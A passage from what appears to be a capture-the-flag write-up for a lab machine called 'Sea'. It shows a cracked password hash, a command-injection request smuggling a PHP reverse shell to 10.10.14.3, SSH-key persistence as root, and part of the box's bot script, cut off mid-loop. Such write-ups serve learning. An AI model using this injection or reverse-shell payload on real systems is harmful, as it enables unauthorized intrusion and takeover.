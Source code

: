 Cleaned (backslashes removed) and cracked:

```console
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
```

## Privilege Escalation

There's a rudimentary system information script listening on port 8080 which has a command injection, exploitable like this:

```http
POST / HTTP/1.1
Host: localhost:18080
...

log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.14.3%22%2C443%29%3Bexec%28%22bash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27&analyze_log=;
```

The shell that returns isn't very stable, but it was open long enough for me to add my SSH public key to `/root/.ssh/authorized_keys` and log in properly as `root`.

## Post-exploitation

```python
root@sea:/home/geo/scripts# cat contact.py
import os
import asyncio
from pyppeteer import launch
import requests

async def XSS(page, url):
    login_url = 'http://127.0.0.1/loginURL'
    headers = {'host': 'sea.htb'}
    data = {'password': 'mychemicalromance'}

    response = requests.post(login_url, data=data, headers=headers, allow_redirects=False)
    cookie = response.headers.get('Set-Cookie')
    cookie = cookie.split(';')
    cookie = cookie[1].split('=')[2]
    cookie = {'name': 'PHPSESSID', 'value': cookie, 'domain': 'sea.htb'}
    await page.setCookie(cookie)
    try:
        await page.goto(url)
        content = await page.content()
    except Exception as e:
        print(f"[!] Failed at goto. {e}")

async def main():
    browser = await launch(headless=True, args=['--no-sandbox'])
    page = await browser.newPage()
    directory_path = "/var/www/sea/messages/"

    while True:
        files = os.listdir(directory_path)
        message_files = [file for file in files if file.endswith(".txt")]

        urls = []
        for file in message_files:
            try:
                file_path = os.path.join(directory_path, file)
                with open(file_path, 'r') as f:
                    lines = f.readlines()
                    for line in lines:
```